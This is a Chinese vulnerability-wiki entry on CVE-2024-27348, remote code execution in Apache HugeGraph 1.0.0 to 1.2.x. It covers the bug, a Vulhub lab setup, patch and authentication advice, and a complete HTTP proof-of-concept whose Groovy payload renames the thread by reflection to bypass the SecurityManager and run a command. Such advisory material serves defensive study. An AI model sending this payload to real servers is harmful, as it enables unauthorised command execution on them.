


# Apache HugeGraph 远程代码执行漏洞 CVE-2024-27348

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：1.0.0<=版本<1.3.0，可访问 Gremlin Groovy执行端点；未认证结论依赖目标未开启认证；反射/JDK条件
- 证据范围：改线程名规避基于名称的 SecurityManager 检查与请求代码对应，有机制增量。

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 图数据库建议主归数据库，关联中间件分类
- 未经身份验证只适用于相应服务配置，不应与沙箱绕过根因混淆
- 需补官方公告确认JDK及平台限制；示例反射访问线程name受运行时影响
- 明确升级和鉴权/白名单各自作用，不以后一项替代补丁

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache HugeGraph 是一款快速、高度可扩展的图数据库。它提供了完整的图数据库功能、出色的性能和企业级的可靠性。

HugeGraph 的 Gremlin API 中存在一个远程代码执行漏洞。Gremlin 是一种图遍历语言，可以在 Groovy、Python 和 Java 等多种编程语言中实现。攻击者能够利用 Gremlin API 在未经身份验证的情况下执行基于 Groovy 的 Gremlin 命令，从而执行任意命令。

理论上，Apache HugeGraph 会使用 SecurityManager 来限制用户提交的 Groovy 脚本。但 SecurityManager 仅检查以“gremlin-server-exec”或“task-worker”开头的线程名称。攻击者通过使用反射修改当前线程名称，可以绕过这一机制，从而实现任意代码执行。

参考链接：

- https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/
- https://www.vicarius.io/vsociety/posts/remote-code-execution-vulnerability-in-apache-hugegraph-server-cve-2024-27348
- https://github.com/Zeyad-Azima/CVE-2024-27348

## 漏洞影响

```
1.0.0 <= HugeGraph < 1.3.0
```

## 环境搭建

Vulhub 执行如下命令启动一个包含漏洞的 HugeGraph 服务器：

```shell
docker compose up -d
```

环境启动后，可通过 `http://your-ip:8080` 访问 HugeGraph 的 RESTful API。




## 漏洞复现

通过 Gremlin API 接口发送恶意的 Gremlin 查询来执行任意命令：

```http
POST /gremlin HTTP/1.1
Host: your-ip:8080
Accept-Language: en
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Content-Length: 779

{
    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"id\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");org.apache.commons.io.IOUtils.toString(startMethod.invoke(processBuilderInstance).getInputStream());",
    "bindings": {},
    "language": "gremlin-groovy",
    "aliases": {}
}
```




## 漏洞修复

1. 升级 hugegraph 到 1.3.0 或更高版本。
2. 生产环境建议开启身份验证，并启用 IP/端口白名单功能以增强安全性。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
